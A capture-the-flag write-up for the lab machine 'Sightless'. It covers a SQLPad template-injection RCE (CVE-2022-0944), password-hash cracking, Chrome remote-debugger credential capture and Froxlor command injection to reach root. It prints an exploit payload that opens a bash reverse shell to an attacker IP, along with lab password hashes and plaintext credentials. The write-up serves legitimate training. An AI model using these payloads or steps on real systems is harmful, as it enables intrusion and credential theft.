# Sightless

Sightless is a Linux-based machine that requires exploiting multiple vulnerabilities to achieve root access.

For the initial foothold, I identified a vulnerability in `SQLPad`,specifically a template injection vulnerability that allows `Remote Code Execution (RCE)` via the `/api/test-connection` endpoint.

To escalate privileges, I exploited a locally running service inaccessible from external networks. Using port forwarding, I accessed the web application which was running with chrome remote debugger that allowed me to view the login credentials.The service had
a command injection vulnerability. Leveraging this flaw, I successfully escalated privileges and achieved root access to the machine.

# Port Scanning
For the scan we are going to use `rustscan`
```bash
rustscan -a 10.10.11.32 --ulimit 5000 -t 3000 -- -sV -sC
```
From this we get three open ports.
```

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
|   256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

```

From the scan we get the ports 21 for `ftp` ,22 for `ssh` and 80 for `http`.In most cases we opt for ftp enumeration but in this instant the scan shows that the service running on port 21  `ProFTPD` that leaves us with 22 and 80, but for 22 we need some log in details and port 80 serves as a good place to get valid credentials with multiple attack vectors.

# Web Enumeration
Lets visit the website.  
When we visit the site immediately we get an error `server not found` .  
To fix this we shall add `sightless.htb` to `/etc/hosts`.
```bash
sudo nano /etc/hosts
[...]
10.10.11.32     sightless.htb
```

Refreshing the page we get a static site thus limiting the attack vectors since we lack any valid end point.


Lets view the source code and try making sense of the `HTML`  code rendering the page.

This suggests that the server is hosting a virtual host.  
*Virtual hosting* is a method for hosting multiple domain names on a single server.  
For us to access this page we add `sqlpad.sightless.htb` to the `/etc/hosts` file.
```bash
sudo nano /etc/hosts

10.10.11.32     sqlpad.sightless.htb

```

Visiting the server 

`SQLPad` is a web app for **writing and running SQL queries and visualizing the results**.
# Foothold
With the version number of the web app we can search for an exploit if any.  
This [repository](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944) contains an exploit script for `CVE-2022-0944` in `SQLPad`, a template injection vulnerability that allows for `Remote Code Execution (RCE)` via the `/api/test-connection` endpoint.  
**Code Review**  
Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. Here is the main function that details contents of the request.
```python
def main():
   
    parser = argparse.ArgumentParser(description="CVE-2022-0944 RCE Exploit")
    parser.add_argument('root_url', help="Root URL of the SQLPad application")
    parser.add_argument('attacker_ip', help="attacker ip")
    parser.add_argument('attacker_port', help="attacker port")
    
    args = parser.parse_args()

    target_url = f"{args.root_url}/api/test-connection"

    payload = f"{{{{ process.mainModule.require('child_process').exec('/bin/bash -c \"bash -i >& /dev/tcp/{args.attacker_ip}/{args.attacker_port} 0>&1\"') }}}}"

    headers = {
        'Content-Type': 'application/json',
        'Accept': 'application/json'
    }
```

**Usage**
1. Setup a `Netcat` Listener
```bash
nc -lvnp 1337
```

2. Run the Exploit
```bash
python exploit.py http://sqlpad.sightless.htb 10.10.16.3 1337
```

Running the exploit we get a shell as root but in a `docker container`.


We have two users in the home directory, though we have root privileges, when we try to access `michael`  the directory seems empty.  
As root we can read the user hashes that are stored in the `/etc/shadow` file
```bash

root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::

```

Since we are logged in as root lets go for the other user's hash. Grab the hash and save it in a file `hash.txt`  then use `john` to crack the hash.


Now that we have the user `michael` and his password `insaneclownposse`, lets try `ssh` login.
```bash
ssh michael@10.10.11.32
```
  
We got shell !!!

# Privilege Escalation
we use `netstat -tuln` command to detect potentially interesting services or custom applications running on the machine.
  
To access the service running on this port `8080` we forward it to our machine.

# Port forwarding
For this we shall use SSH Tunneling that will forwards traffic from the target machine through the SSH server to our attacker machine.
```bash
ssh -L 8090:127.0.0.1:8080 michael@10.10.11.32
```

Scanning with `nmap`
```bash
nmap -sC -sV -vv -p8090 127.0.0.1

...
PORT     STATE SERVICE REASON         VERSION
8090/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-title: froxlor - Domain not configured
|_Requested resource was notice.html

```

# Service Enumeration
The service is `Froxlor`  which is a free and open-source web hosting control panel.


# Service Exploitation

To exploit the service we Check the processes, there are chrome processes with remote debugger
```bash

michael@sightless:~$ ps aux | grep chrome
john        1649  0.6  0.3 33630172 15196 ?      Sl   19:05   0:28 /home/john/automation/chromedriver --port=33149
[...]
```

I found the [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) on Chrome Remote Debugger a tool that debugs web applications very useful in this scenario.To access the ports we shall have to forward all the ports to our local machine.
```bash
ssh -L 8080:127.0.0.1:8080 -L 3306:127.0.0.1:3306 -L 34037:127.0.0.1:34037 -L 3000:127.0.0.1:3000 -L 39041:127.0.0.1:39041  -L 33060:127.0.0.1:33060 -L 33149:127.0.0.1:33149  michael@10.10.11.32
```

The next step is to configure network targets in chrome. Now we should see the remote host appears at the bottom of the `Remote Target` .  
Click `inspect` then new browser open. We can browse the website.
When inspecting the login page we see credentials in the developer tool at the right pane. 



```
username : admin
password : ForlorfroxAdmin
```


We authenticate successfully.

To exploit the service.
1. Navigate to `http://127.0.0.1:8090/admin_phpsettings.php?page=fpmdaemons`
2. Change the `PHP-FPM restart command` to `touch /home/michael/root.txt` 
3. Then go to `http://127.0.0.1:8090/admin_settings.php?page=overview&part=froxlorvhost` and disable ,then enable `PHP-FPM` .This will execute the restart command.

```bash
michael@sightless:~$ ls -l
total 4
-rw-r--r-- 1 root root     0 Dec 30 22:15 root.txt
-rw-r----- 1 root michael 33 Dec 30 20:57 user.txt
michael@sightless:~$ 

```

From the output we see that the service is executing the commands as root.  
To get the root flag, we can change the restart command to `chmod 777 /root/root.txt`  this will  give us access to the file then we can use `cp /root/root.txt /home/michael/root.txt` which will copy the contents to the home directory.




